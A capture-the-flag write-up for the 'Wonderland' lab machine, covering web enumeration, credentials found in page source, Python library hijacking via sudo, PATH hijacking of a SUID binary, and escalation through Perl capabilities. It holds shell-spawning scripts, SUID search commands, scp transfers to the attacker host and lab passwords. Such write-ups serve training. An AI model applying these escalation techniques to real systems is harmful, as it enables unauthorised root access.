# Wonderland

> Franco Contreras


IP=10.10.82.181

### Enumeration

```bash
export IP=10.10.82.181
mkdir scans
nmap -A $IP -oN scans/nmap.log
```
Port 80 is open:

```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```




Directory **/r** exists and contains <this image> [image1]. This seems like an encouraging sign this is the right directions, now explore the source code and see if there is anything worth 



Nothing of interest, now what we can do is redefine our target to contain the directory we found and *gobuster* it



Seems like this is some kind of nested directory with 1 letter per directory, you could try to do it manually or write a script to do it for you

<details><summary> Python script </summary>
<p>

```python
import requests
import string
import time
url= 'http://10.10.82.181/'
#This will loop forever, stop it when it stops finding new letters
while True:
	for letter in list(string.ascii_lowercase[:26]): # loops through the alphabet in lowercase starting with a
		print(url)
		r = requests.post(url+letter+'/')
		if r.status_code == 200:
			url = url + letter +'/'
			letter = string.ascii_lowercase[0]
		else:
			time.sleep(0)

```
	
</p>
</details>

	
The website contains this image


At this point I felt stuck, I already had the images from **/img/** directory, so I did some used some stego tools on the images, binwalk for the **.png** and steghide for the **.jpg**

```bash
steghide extract -sf alice_door.jpg
steghide extract -sf white_rabbit_1.jpg
binwalk -e alice_door.png

```


<details><summary>Hint.txt</summary>
<p>
follow the r a b b i t
</p>
</details>

So we didn't need the previous python script to figure out the path, but it was a good excercise nontheless.

Explore the source code of the website



Credentials: <br>
> alice:HowDothTheLittleCrocodileImproveHisShiningTail <br>

Connect using ssh and these credentials, once in explore and try to escalate, first obvious attemp is `sudo -l` <bn>



[Tip](https://docs.python.org/3/tutorial/modules.html#the-module-search-path)


Now we are going to create a file called ramdom.py to abuse the fact we are in the same directory as the executable python script, this new file should be able to spawn a shell

<details><summary>random.py</summary>
<p>

```python
import os

os.system("/bin/bash")
```
</p>
</details>

Now, execute the python file as rabbit, this should give us a new shell as **rabbit**

```bash
sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
```



We can now see if there is any other user with more privileges we can impersonate `cat /etc/passwd`

Also check rabbit's folder, there is an interesting file there with interesting persimssions.



Both SUID and GUID are on, try to understand how the binary works by using it with strings, have in mind strings is no instaled in victims machine, you have to extract it somehow, scp could be a valid option

```bash
scp teaParty user@10.6.73.147:/home/user/THM/Wonderland
```


It uses **date** but without refering to the absolute path, we can exploit this by creating a **date** binary with our code in the current directory and add it to the PATH
```bash
export PATH=$(pwd):$PATH
```
<details><summary>date</summary>
<p>

```bash
#!/bin/bash
/bin/bash
```
</p>
</details>


Explore hatter's home folder `cat /home/hatter/password.txt`

> Credentials hatter:WhyIsARavenLikeAWritingDesk?

Find SUID and GUID files
```bash
find / -perm 4000 2>/dev/null
find / -perm 2000 2>/dev/null
find / -perm 6000 2>/dev/null
```

Try other tools
`scp linpeas.sh hatter@$IP:/home/hatter`



[Tip](https://gtfobins.github.io/gtfobins/perl/#capabilities)


We can exploit these capabilities


Find the files with
```
find / -name *user.txt 2>/dev/null
find / -name *root.txt 2>/dev/null
```
